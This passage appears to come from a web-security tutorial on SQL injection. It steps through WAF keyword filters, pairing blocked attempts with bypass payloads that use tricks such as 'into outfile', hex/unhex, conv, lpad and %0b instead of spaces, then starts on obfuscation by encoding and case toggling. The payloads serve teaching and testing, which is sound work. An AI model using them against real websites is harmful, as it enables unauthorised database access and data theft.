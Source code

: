 **• Step 4:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`

* **Blocked Attempt**: `1 || (select user from users group by user_id having user_id = 1) = 'admin'`
* **Bypassed Injection**: `1 || (select substr(group_concat(user_id),1,1) user from users ) = 1`

**• Step 5:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`

* **Blocked Attempt**: `1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1`
* **Bypassed Injection**: `1 || 1 = 1 into outfile 'result.txt'`
* **Bypassed Injection**: `1 || substr(user,1,1) = 'a'`

**• Step 6:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`

* **Blocked Attempt**: `1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1`
* **Bypassed Injection**: `1 || user_id is not null`
* **Bypassed Injection**: `1 || substr(user,1,1) = 0x61`
* **Bypassed Injection**: `1 || substr(user,1,1) = unhex(61)`

**• Step 7:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`

* **Blocked Attempt**: `1 || substr(user,1,1) = unhex(61)`
* **Bypassed Injection**: `1 || substr(user,1,1) = lower(conv(11,10,36))`

**• Step 8:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`, `substr`

* **Blocked Attempt**: `1 || substr(user,1,1) = lower(conv(11,10,36))`
* **Bypassed Injection**: `1 || lpad(user,7,1)`

**• Step 9:**

**Keywords Filtered**: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`, `substr`, `white space`

* **Blocked Attempt**: `1 || lpad(user,7,1)`
* **Bypassed Injection**: `1%0b||%0blpad(user,7,1)`

#### Obfuscation:

**Method:**

* Encoding payload to different encodings \(a hit and trial approach\).
* You can encode whole payload, or some parts of it and test recursively.

**Techniques:**

**1. Case Toggling**

* Some poorly developed WAFs filter selectively specific case WAFs.
* We can combine upper and lower case characters for developing efficient payloads.
